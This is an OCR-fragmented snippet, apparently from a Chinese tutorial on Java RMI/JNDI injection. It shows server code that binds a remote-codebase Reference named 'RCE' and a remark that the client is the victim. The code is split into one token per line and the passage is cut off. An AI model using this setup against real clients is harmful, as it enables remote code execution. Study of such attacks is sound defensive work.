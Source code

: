           
Registry  
  
registry  
  
=  
  
LocateRegistry  
.  
createRegistry  
(  
7778  
);  
  
          
Reference  
  
reference  
  
=  
  
new  
  
Reference  
(  
"Calculator","Calculator","http://127.0.0.1:8081/"  
);  
  
          
ReferenceWrapper  
  
wrapper  
  
=  
  
new  
  
ReferenceWrapper  
(  
reference  
);  
  
          
registry  
.  
bind  
(  
"RCE",wrapper  
);  
  
      
}            
  
  
}  
  
Ada  
  
   
  
   
  
   
  
客户端（RMIClient.java） 客户端也是受害者  
  